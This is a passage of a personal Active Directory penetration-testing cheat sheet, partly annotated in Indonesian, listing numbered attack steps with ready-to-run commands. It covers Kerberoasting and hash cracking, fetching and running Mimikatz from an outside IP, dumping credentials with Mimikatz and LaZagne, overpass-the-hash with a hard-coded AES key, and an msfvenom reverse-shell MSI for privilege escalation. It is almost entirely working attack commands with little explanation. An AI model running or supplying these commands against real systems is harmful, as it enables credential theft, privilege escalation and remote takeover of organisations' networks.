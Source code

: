 13. Kerberoasting
```cmd
C:\AD\Tools\Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt 

C:\AD\Tools\Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt

C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt 
```

14. Mimikatz (Dumping password) >> Need local administrator
```cmd
certutil -urlcache -f "http://192.168.45.168:8000/mimikatz.exe" mimikatz.exe
powershell -ep bypass
iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/Invoke-Mimikatz.ps1')

Invoke-Mimikatz -Command '"privilege::debug"' (pastikan Administrator)
Invoke-Mimikatz -Command '"token::elevate"'
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' (Dumping krbtgt hash)
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' (dapet NTLM and SHA1 hash)
Invoke-Mimikatz -Command '"lsadump::sam"' (No need to use this)
Invoke-Mimikatz -Command '"lsadump::secrets"'
Invoke-Mimikatz -Command '"vault::cred /patch"' (Cred vault)
```

15. Lazagne.exe (Dumping password without administrative privilege)
```cmd
wget https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe
HOW TO USE: https://github.com/AlessandroZ/LaZagne
LaZagne.exe all
```

16. OPTH (Maybe for pivoting later di AD, harusnya ada 1)
```cmd
Dapetin aesnya dari '"sekurlsa::ekeys"'

C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

17. Look for `AlwaysInstallElevated` permission
> Check with PowerUP or winPEAS.exe
```powershell (powerUp)
Get-RegistryAlwaysInstallElevated
```
```cmd
winPEAS.exe
```
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Kalo output 2 2nya adalah 1 atau 0x1 ITS EASY PRIVESC
```
> Tinggal bikin revshell msi aja, ntar langsung dapet NT AUTHORITY\SYSTEM
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.199 LPORT=6969 -a x64 --platform Windows -f msi -o rev.msi
```
